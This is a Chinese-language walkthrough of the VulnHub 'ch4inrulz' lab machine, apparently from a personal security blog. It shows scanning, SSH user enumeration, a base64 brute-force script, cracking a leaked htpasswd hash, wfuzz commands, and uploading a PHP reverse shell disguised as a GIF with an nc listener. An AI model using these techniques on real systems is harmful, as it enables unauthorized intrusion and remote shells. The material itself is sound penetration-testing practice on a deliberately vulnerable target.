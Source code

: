 ```yaml
---
categories:
- training
tags: 
    - training
---
```


[download](https://www.vulnhub.com/entry/ch4inrulz-101,247/)

# scan
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8011/tcp open  unknown

## ftp
21/tcp open  ftp     vsftpd 2.3.5
## ssh
OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)

- https://www.exploit-db.com/exploits/45001/
OpenSSH < 6.6 SFTP - Command Execution
失败

- https://www.exploit-db.com/exploits/45233/
OpenSSH 2.3 < 7.7 - Username Enumeration
成功
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/2.PNG)
确认frank用户存在，但是爆破失败。笑容逐渐消失~~
## http-80port
`http://192.168.1.132/robots.txt`显示这个路径存在，心中一喜，访问看看。
`NOTHING here , yet !`
MD好贱呐！

## http-8011port
visit http://192.168.1.132:8011/
`Development Server !`

```
#nmap -sV -p 8011 192.168.1.132
8011/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```
## info1
Apache/2.2.22 (Ubuntu) Server
http://192.168.1.132/development/ 有一个登陆页面

# Trying1
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/1.PNG)
输入用户名123，密码123，发现以123:123的形式base64编码。
于是可以尝试爆破。
![Screenshot from 2018-10-27 12-33-31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/Screenshot%20from%202018-10-27%2012-33-31.png)
```
import base64
user = open("/usr/share/wordlists/rockyou.txt","r")
answer=open("/root/Desktop/302/answer.txt","w+")
while True:
	one = user.readline()
	#password = open("/usr/share/wordlists/rockyou.txt","r") 
	with open("/usr/share/wordlists/password.txt","r") as password:
		for one_password in password.readlines():	
			ans = one_password.strip("\n")+":"+one
			key = base64.b64encode(ans)
			answer.writelines(key+"\n")

user.close()
```
用burp intruder爆破，无果。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/3.PNG)

好吧，看看writeup，我承认我菜了==

https://delosec.com/vulnhub-ch4inrulz-writeup/

## 划重点
当时我扫描到了api这个页面，其中提示了四个页面，说在建设中，我检查了前两个，不存在，我就当作四个都不存在。。。

当时的精力花在80端口破解登陆页面去了。。。
反省，需要另开一篇，复习踩点。

http://192.168.1.132:8011/api/files_api.php
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/4.PNG)

- 尝试get提交文件名
```
YOUR IP IS : 192.168.1.128
WRONG INPUT !!
```
- 尝试post提交文件名
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/5.PNG)
说明该php没有禁止post方式==

接下来我尝试了好久，找apache日志的地址，结果都是无用功。。

- nikto -h ip
找到了一个备份文件
http://192.168.1.132/index.html.bak

```
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
<a href="/development">development</a>
<!-- I will use frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0 as the .htpasswd file to protect the development path -->
</body></html>
```

ORZ，我爆破了那么久的口令，就藏在备份文件里了吗。。。
当我尝试`$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`作为口令登陆失败，我意识到这可能是一个路径，而不是口令。

于是我找到了另一个登陆页面`http://192.168.1.132/development/$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`

em。。？黑人问号

- 新知识点1
[Apache密码类型](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/7.PNG)
以前遇到的都是加盐（salt）类型的mdf，md5($pass.$salt)。
这次遇到的这一串`$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0`
貌似是apache特有的加密方式==，长见识了。密码学没怎么学。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/6.PNG)

总之获得了frank:frank!!!口令，登陆后，看到了上传页面。

上传了一个png，然后找图片上传路径==，找了半天没找到。
看了wp，路径是/development/uploader/FRANKuploads

- 新知识点2
wfuzz的使用

```
-c 有颜色的输出
-z 扫描模式，可以字典扫描，数字范围扫描。。。
--hc 隐藏具体的响应代码，例如404,200之类的
FUZZ 是需要爆破替换的地址。
--basic 测试一个需要HTTP Basic Auth保护的内容
```

example:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --basic "frank:frank!!!" --hc 404 "http://ip/development/uploader/FRANKFUZZ"

wfuzz -c -z range,1-65535 --hl=2 http://ip:60000/url.php?path=http://localhost:FUZZ
```

## 文件上传

1. nc -lnvp 1234
2. 选择/usr/share/webshells/php/php-reverse-shell.php
3. 开burp拦截，因为只允许图片类型
后缀改为gif，文件内容改为GIF98，点go就可以成功上传。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/12.PNG)
4. 绝对路径进行文件包含。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/8.PNG)
linux2.6，版本很低嘛，很明显的内核漏洞提权，快讲烂了==
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1029/13.PNG)

## 总结
wfuzz、nikto、johntheripper，复习了工具的使用。
明明知道怎么操作，但是就是因为字典或者工具的原因无法成功利用那才是灾难。。。

